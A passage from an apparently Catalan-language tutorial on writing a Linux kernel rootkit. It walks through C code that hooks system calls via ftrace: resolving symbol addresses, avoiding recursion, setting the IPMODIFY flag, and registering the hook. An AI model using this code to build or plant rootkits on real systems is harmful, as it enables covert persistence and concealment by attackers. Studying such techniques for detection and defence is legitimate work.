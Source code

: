             if (!hook->address)
            {
                printk(KERN_DEBUG "rootkit: unresolved symbol: %s\n", hook->name);
                return -ENOENT;
            }
        }
    ```

    **OBSERVACIÓ**: Quan intentem fer hook, es poden donar bucles recursius. Per evitar-ho tenim diferents opcions. Podem intenta detectar la recursivitat mirant l'adreça de retorn de la funció o bé podem saltar a una adreça per sobre la crida *ftrace*.

    ```c
        #if USE_FENTRY_OFFSET
            *((unsigned long*) hook->original) = hook->address + MCOUNT_INSN_SIZE;
        #else
            *((unsigned long*) hook->original) = hook->address;
        #endif
    ```

    Finalment, no ens podem oblidar de comentar els flags que s'utilitzen per definir la callback:

    * **FTRACE_OPS_FL_SAVE_REGS**: Flag que permet passar *pt_regs* de la crida original al nostre hook.
    * **FTRACE_OPS_FL_IP_MODIFY**: Indiquem a ftrace que modificarem el registre IP.
    * **FTRACE_OPS_FL_RECURSION**: Desactivar la protecció per defecte de ftrace.

    ```c
        hook->ops.func = (ftrace_func_t)fh_ftrace_thunk;
        hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS
                    | FTRACE_OPS_FL_RECURSION
                    | FTRACE_OPS_FL_IPMODIFY;
    ```
    
    Bàsicament aquestes funcions ens permet instal·lar/desinstal·lar **hooks** a crides a sistema. 

    * **ftrace_set_filter_ip()** diu a ftrace que només executi la nostra callback quan **rip** és l'adreça de *sys_open*  (desada a hook->address). 
    * **register_ftrace_function()**. Asegura que tot estigui al seu lloc i l'hook preparat.

    ```c
        err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0);
        if(err)
        {
            printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
            return err;
        }
        err = register_ftrace_function(&hook->ops);
        if(err)
        {
            printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err);
            return err;
        }
    ```
